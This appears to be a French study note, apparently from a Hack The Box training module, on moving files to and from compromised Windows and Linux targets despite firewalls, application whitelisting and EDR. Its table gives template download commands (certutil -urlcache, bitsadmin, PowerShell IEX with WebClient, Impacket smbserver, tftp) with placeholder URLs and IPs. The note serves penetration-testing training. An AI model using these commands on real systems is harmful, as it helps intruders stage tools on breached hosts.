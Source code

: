 # introduction transfert de fichiers 

🎯 Objectif

Apprendre différentes méthodes de transfert de fichiers entre une machine attaquante et une cible, malgré les restrictions réseau, les contrôles de sécurité, et les limitations de l’environnement.

🧪 Scénario pratique
Un attaquant obtient un accès RCE sur un serveur IIS via un upload non filtré.

Tentatives de transfert de fichiers pour élever les privilèges :

PowerShell bloqué par une politique de contrôle d’application.

Certutil inutilisable à cause d’un filtrage Web strict (GitHub, Dropbox bloqués).

FTP inaccessible (port TCP 21 bloqué).

SMB (TCP 445) ouvert → solution fonctionnelle via Impacket smbserver.

🔐 Contraintes fréquentes
Contrôles hôtes : Application Whitelisting, Antivirus/EDR.

Contrôles réseau : Pare-feu, IDS/IPS, filtrage de contenu ou de ports.

🧰 Méthodes de transfert à connaître
Basées sur des outils nativement disponibles sur Windows/Linux.

Non-exhaustives mais adaptables à diverses situations.

Le module présente des exemples pratiques sur machines Windows/Linux.

📚 Recommandations
Expérimenter toutes les méthodes présentées dans le module.

Comparer les méthodes selon leur efficacité, discrétion et applicabilité.

Réutiliser ces techniques dans les autres modules HTB ou dans les labos de la plateforme.

 Synthèse : Méthodes de Transfert de Fichiers - Windows 
 
🎯 Objectif
Savoir transférer des fichiers depuis/vers un système Windows cible lors d'un engagement, malgré les restrictions réseau et les contrôles de sécurité.

📦 Outils natifs ou courants utilisés pour le transfert
Méthode	Détails & Commandes Exemple	Remarques
certutil	certutil -urlcache -split -f <URL> fichier.exe	Peut être bloqué par EDR/AV, utile si pas filtré
bitsadmin	bitsadmin /transfer <nom> <URL> <fichier>	Obsolète, parfois toujours dispo
PowerShell	Invoke-WebRequest ou IEX(New-Object Net.WebClient)	Souvent bloqué ou restreint
FTP	ftp (mode interactif)	Peut être bloqué (port 21), peu discret
SMB (Impacket)	smbserver.py + copy \\<IP>\<share>\fichier	Efficace si SMB autorisé en sortie
Python HTTP	python3 -m http.server côté attaquant	Simple serveur de fichiers
tftp	tftp -i <IP> GET fichier	Rarement autorisé, très vieux

🚧 Limitations fréquentes
Contrôles hôtes : Application Whitelisting, Antivirus, EDR.

Contrôles réseau : Pare-feux bloquant ports comme 21 (FTP), 80/443 externes, etc.

Filtrage de contenu : Accès restreint à GitHub, Google Drive, etc.

✅ Recommandations
Tester chaque méthode selon les contraintes de l’environnement cible.

Automatiser si possible (scripts, PowerShell).

Être capable d'adapter les techniques à la configuration du système cible.

Observer les comportements des outils utilisés (journaux, alertes EDR, etc.)